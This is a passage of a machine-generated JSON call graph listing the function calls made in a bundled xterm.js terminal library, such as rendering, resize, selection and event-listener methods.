"measure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_validateAndSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "measureText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "measure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "measureText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_validateAndSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isCombined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setFromCharData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getAsCharData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "deregister"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getJoinedCharacters"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "translateToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getFg"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getBg"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getJoinedRanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getJoinedRanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getJoinedRanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_mergeRanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_stringRangesToCellRanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_stringRangesToCellRanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_mergeRanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "window"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "window"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dpr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isFocused"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "queueMicrotask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setDprAndFireIfDiffers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateDpr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setWindowResizeListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setWindow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setWindowResizeListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setDprAndFireIfDiffers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setWindowResizeListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setDprAndFireIfDiffers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setDprAndFireIfDiffers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateDpr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateDpr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "matchMedia"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerLinkProvider"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getMouseReportCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_renderRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleDevicePixelRatioChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fullRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleOptionsChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleCharSizeChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fullRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fullRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleResize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fullRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refreshRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fullRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_registerIntersectionObserver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_registerIntersectionObserver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "observe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleIntersectionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "measure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refreshRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refreshRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_renderRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "renderRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleSelectionChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fireOnCanvasResize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleOptionsChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refreshRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fireOnCanvasResize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fireOnCanvasResize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasRenderer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setRenderer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onRequestRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fullRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addRefreshCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addRefreshCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fullRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refreshRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearTextureAtlas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fullRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleDevicePixelRatioChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "measure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleDevicePixelRatioChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refreshRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleResize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleResize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleResize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fullRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleCharSizeChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleCharSizeChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleBlur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleBlur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleSelectionChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleSelectionChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleCursorMove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleCursorMove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleMouseMove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleMouseUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onUserInput"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onTrim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_removeMouseDownListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "disable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectionStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectionText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "translateBufferLineToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "translateBufferLineToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "translateBufferLineToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_removeMouseDownListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_isClickInSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getMouseBufferCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_areCoordsInSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isCellInSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_areCoordsInSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_areCoordsInSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_selectWordAtCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getMouseBufferCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_selectWordAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleTrim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleTrim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getMouseBufferCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getMouseEventScrollAmount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shouldForceSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleMouseDown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleIncrementalClick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleSingleClick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleDoubleClick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleTripleClick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_addMouseDownListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_addMouseDownListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_dragScroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_removeMouseDownListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": 